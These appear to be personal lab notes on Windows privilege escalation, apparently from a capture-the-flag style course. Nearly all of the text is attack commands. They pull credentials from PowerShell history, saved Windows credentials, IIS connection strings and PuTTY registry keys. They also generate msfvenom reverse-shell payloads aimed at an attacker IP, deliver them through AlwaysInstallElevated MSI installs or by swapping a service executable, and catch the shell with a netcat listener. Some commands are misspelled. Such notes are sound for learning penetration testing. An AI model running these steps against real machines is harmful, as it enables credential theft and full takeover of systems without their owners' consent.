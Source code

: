 ![[Screenshot 2022-06-23 at 08.51.11.png]]
![[Screenshot 2022-06-23 at 08.51.28.png]]

Harvesting Easily-Grabbed Passwords
===
![[Screenshot 2022-06-23 at 08.56.28.png]]

PS History
===
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` 

Saved Win Credentials
===
`cmkdkey /list`
--> `runas /savecred /user:admin cmd.exe`

IIS Configuration
===
![[Screenshot 2022-06-23 at 09.06.58.png]]
To find DB connection strings run `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
![[Screenshot 2022-06-23 at 09.08.49.png]]

Retreiving Credentials from Software: PuTTY
===
Command to search under registry key for proxypassword = `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

Scheduled Tasks
===
`schtasks` or `schtasks /query /tn vulntask /fo list /v`
`icacls` --> shows file permissions of an executable

AlwaysInstallElevated
===
.msi files
1. Query the 2 registry values needed to be set with ``` C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer ``` and 
```C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
2. generate malicious .msi file `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.102.14 LPORT=LOCAL_PORT -f msi -o malicious.msi`
3. set up and run metasploit handler rightly, then run `C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi` and it should work

Abusing Service Misconfigs
===
`sc qc <serviceName>` shows details about running service.
Use _ProcessHacker_ + _Registry Editor_ programs to look more into the services.
(servicename(used) = _apphostsvc_)
Insecure Permissions on Service Executable
===
1. `sc qc WindowsScheduler`
2. `icacls c:\<BINARY_PATH_NAME from above>` (_c:\progra~2\system~1\wservice.exe_)
3. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe` 
4. set up python server and transfer it to target machine with wget (in PS)
5. replace ervice with payload `>move c:\progra~2\system~1\WService.exe c:\progra~2\system~1\WService.exe.bkp` + `move rev-svc.exe c:\progra~2\system~1\WService.exe`
6. grant full permission to everyone with `icacls c:\progra~2\system~1\WService.exe /grant Everyone:F`
7. set up nc listener on attacker machine and restart service `sc stop windowsscheduler` + `sc start windowsscheduler`
